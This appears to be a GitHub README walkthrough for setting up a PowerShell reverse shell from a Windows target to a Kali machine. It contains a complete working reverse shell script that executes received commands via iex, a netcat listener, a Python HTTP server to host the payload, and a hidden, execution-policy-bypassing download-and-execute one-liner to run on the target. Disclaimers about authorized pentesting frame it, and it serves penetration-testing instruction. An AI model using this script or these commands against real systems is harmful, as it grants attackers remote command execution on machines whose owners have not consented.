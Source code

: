 # PowerShell Reverse Shell Walkthrough

## Overview

This guide will walk you through the process of setting up a **PowerShell Reverse Shell** to connect from a target Windows machine back to your Kali Linux machine. The reverse shell allows you to remotely execute commands on the target machine after it connects back to your attacker's machine.

This walkthrough also includes steps to encode the PowerShell reverse shell command to evade basic detection mechanisms during testing.

### Important Disclaimer

**Warning:** This tool is intended for ethical penetration testing and security assessments only. Unauthorized access to systems or networks without permission is illegal and unethical. Always obtain explicit written permission before testing or exploiting any systems.

---

## Prerequisites

### **Attacker Machine (Kali Linux)**:
- **Netcat** or similar tool to listen for the reverse shell connection.
- **Python 3** for hosting the reverse shell script.

### **Target Machine (Windows)**:
- **PowerShell** should be available (on most modern Windows machines).

---

## Walkthrough

### **Step 1: Set Up the Listener on Kali**

The first step is to set up a listener on your Kali machine to receive the incoming reverse shell connection. Open a terminal and run the following command:

```bash
nc -lvnp <port>
```

- Replace `<port>` with the port you want to listen on (e.g., `4444`). Ensure that this port is open and accessible from the target machine.

---

### **Step 2: Prepare the Reverse Shell Script**

Create the reverse shell PowerShell script that will be executed on the target machine. Save the following script as `reverse.ps1` on your Kali machine (e.g., `/var/www/html/reverse.ps1`):

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<kali_ip>', <port>);
$stream = $client.GetStream();
[byte[]]$buffer = 0..65535 | % { 0 };
while (($i = $stream.Read($buffer, 0, $buffer.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($buffer, 0, $i);
    $sendback = (iex $data 2>&1 | Out-String);
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```

- Replace `<kali_ip>` with your Kali machine's IP address.
- Replace `<port>` with the same port number you are using for the listener (e.g., `4444`).

---

### **Step 3: Start a Simple HTTP Server on Kali**

Use Python's built-in HTTP server to host the `reverse.ps1` script and make it accessible to the target machine. Run the following command on Kali:

```bash
python3 -m http.server 80
```

This will start an HTTP server on port `80` and serve files from the current directory. Make sure the `reverse.ps1` script is in the directory being served (e.g., `/var/www/html/`).

You can now access your script from the target machine using your Kali machine's IP address:

```
http://<kali_ip>/reverse.ps1
```

---

### **Step 4: Run the PowerShell Command on the Target Machine**

On the target machine (the Windows machine), open a PowerShell window and run the following command to download and execute the reverse shell script:

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://<kali_ip>/reverse.ps1')"
```

- Replace `<kali_ip>` with your Kali machine’s IP address.

This command performs the following actions:
1. `-NoP`: Disables PowerShell profile.
2. `-NonI`: Disables interactive mode.
3. `-W Hidden`: Runs PowerShell in hidden window mode.
4. `-Exec Bypass`: Bypasses the execution policy, allowing unsigned scripts to run.
5. `IEX`: Executes the downloaded PowerShell script.

Once this command is executed, the target machine will connect back to your Kali machine's listener, providing you with a command prompt on the target system.

## Legal Disclaimer

This tool is intended for use in authorized security assessments only. Unauthorized access to computer systems is illegal. Always obtain explicit written permission before testing or exploiting any system.
